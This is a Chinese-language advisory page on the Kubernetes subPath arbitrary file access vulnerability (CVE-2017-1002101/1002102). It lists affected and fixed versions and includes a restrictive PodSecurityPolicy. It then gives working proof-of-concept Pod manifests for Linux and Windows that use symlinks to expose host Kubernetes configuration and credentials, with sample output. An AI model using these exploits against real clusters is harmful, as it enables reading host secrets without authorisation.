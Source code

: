 ```yaml
---
type: page
title: Kubernetes 任意文件访问漏洞
date: 2018-03-21 20:17:18
tags: kubernetes
---
```


前段时间 Kubernetes 发布了一系列的安全更新，修复了一个因 subpath 处理不当导致的任意文件访问漏洞（[CVE-2017-1002101](https://github.com/kubernetes/kubernetes/issues/60814)和 [CVE-2017-1002102](https://github.com/kubernetes/kubernetes/issues/60814)）。受该漏洞影响的版本包括

- Kubernetes 1.3.x-1.6.x
- Kubernetes 1.7.0-1.7.13
- Kubernetes 1.8.0-1.8.8
- Kubernetes 1.9.0-1.9.3

建议所有使用 Kubernetes 的生产用户更新到修复版本

- v1.7.14（ [#61047](https://github.com/kubernetes/kubernetes/pull/61047)）
- v1.8.9 （[#61046](https://github.com/kubernetes/kubernetes/pull/61046)）
- v1.9.5 （[#61045](https://github.com/kubernetes/kubernetes/pull/61045) [#61080](https://github.com/kubernetes/kubernetes/pull/61080)，其中 v1.9.4 存在 subPath 无法在 Secret 等 Volume 中使用的问题，建议直接跳过该版本）
- v1.10（将在未来几天发布）

除了升级集群版本之外，建议使用 PodSecurityPolicy 禁止 hostPath 存储卷，如

```yaml
apiVersion: extensions/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default'
    apparmor.security.beta.kubernetes.io/allowedProfileNames: 'runtime/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'docker/default'
    apparmor.security.beta.kubernetes.io/defaultProfileName:  'runtime/default'
spec:
  privileged: false
  # Required to prevent escalations to root.
  allowPrivilegeEscalation: false
  # This is redundant with non-root + disallow privilege escalation,
  # but we can provide it for defense in depth.
  requiredDropCapabilities:
    - ALL
  # Allow core volume types.
  volumes:
    - 'configMap'
    - 'emptyDir'
    - 'projected'
    - 'secret'
    - 'downwardAPI'
    # Assume that persistentVolumes set up by the cluster admin are safe to use.
    - 'persistentVolumeClaim'
  hostNetwork: false
  hostIPC: false
  hostPID: false
  runAsUser:
    # Require the container to run without root privileges.
    rule: 'MustRunAsNonRoot'
  seLinux:
    # This policy assumes the nodes are using AppArmor rather than SELinux.
    rule: 'RunAsAny'
  supplementalGroups:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  fsGroup:
    rule: 'MustRunAs'
    ranges:
      # Forbid adding the root group.
      - min: 1
        max: 65535
  readOnlyRootFilesystem: false
```

## 漏洞示例

### Linux

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: subpath
spec:
  initContainers:
  - name: symlink
    image: "alpine"
    command: ['ln', '-s', '/etc/kubernetes', '/data/vol']
    volumeMounts:
    - name: volume01
      mountPath: /data/
  containers:
  - name: sh
    image: "alpine"
    command: ["sh"]
    stdin: true
    tty: true
    volumeMounts:
    - name: volume01
      subPath: vol
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath ls /test
azure.json     certs          manifests      volumeplugins
```

### Windows

使用 SubPath 和软链接的形式可以访问 Host 上面的任意文件（且适用于任何类型的存储插件）：

```sh
apiVersion: v1
kind: Pod
metadata:
  name: subpath-win
spec:
  initContainers:
  - name: symlink
    image: microsoft/iis
    command:
    - cmd.exe
    - /c
    - mklink /J c:\data\kubernetes c:\k
    volumeMounts:
    - name: volume01
      mountPath: /data
  containers:
  - name: cmd
    image: microsoft/iis
    volumeMounts:
    - name: volume01
      subPath: kubernetes
      mountPath: /test
  volumes:
  - name: volume01
    emptyDir: {}
  nodeSelector:
    beta.kubernetes.io/os: windows
```

```sh
# 可以在 Volume 中看到 Kubernetes 的配置
$ kubectl exec -i -t subpath-win powershell ls /test

    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/13/2018   8:13 AM                cni
d-----         3/7/2018   4:43 AM                volumeplugins
-a----         3/7/2018   4:43 AM            635 azure.json
-a----         3/7/2018   4:43 AM           9446 config
```
